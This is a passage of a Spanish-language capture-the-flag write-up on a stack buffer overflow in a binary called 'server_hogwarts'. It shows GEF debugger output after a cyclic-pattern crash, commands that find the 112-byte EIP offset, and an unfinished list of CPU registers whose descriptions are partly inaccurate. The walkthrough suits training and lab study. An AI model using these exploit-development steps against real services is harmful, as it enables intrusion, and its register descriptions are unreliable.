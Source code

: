 ```bash
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcc30│+0x0000: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"    ← $esp
0xffffcc34│+0x0004: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcc38│+0x0008: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffcc3c│+0x000c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffcc40│+0x0010: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffcc44│+0x0014: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffcc48│+0x0018: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffcc4c│+0x001c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x62616164
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "server_hogwarts", stopped 0x62616164 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
```
Observa el **EIP**, se pueden ver letras específicas que podemos identificar de todo el payload.

Lo podemos hacer manualmente de la siguiente manera:

* Copia el payload y dentro de tu terminal, úsalo dentro de **echo** y con **grep** busca las 4 letras que están en el **EIP**:
```bash
echo -n "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa..." | grep "daab"
```

* Ya identificado, copia hasta donde indicó el comando anterior e igual úsalo dentro de **echo** y usa `wc -c` para obtener la cantidad de letras:
```bash
echo -n "aaaabaaacaaadaaaeaaafaa..." | wc -c
116
```
Si quitamos los 4 caracteres que buscamos, sería un total de **112 el offset**.

También lo podemos hacer de forma sencilla con el comando `pattern offset $eip`:
```bash
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```
Con eso, confirmamos la cantidad del **offset**.

<br>

<h3 id="identificacion">Sexto Paso: Identificando Ubicación de Representación de Caracteres</h3>

Estos registros son los que nos importan, pues son los registros de CPU hacia los cuales se puede dirigir el **Buffer Overflow**:
* *EIP*: indica la siguiente dirección de memoria que el ordenador debería ejecutar.
* *EAX*: almacena temporalmente cualquier dirección de retorno.
* *EBX*: almacena datos y direcciones de memoria.
* *ESI*: contiene la dirección de memoria de los datos de entrada.
* *ESP*: se usa para referenciar el inicio de un hilo.
* *EBP*: indica la dirección de memoria del final de un hilo.
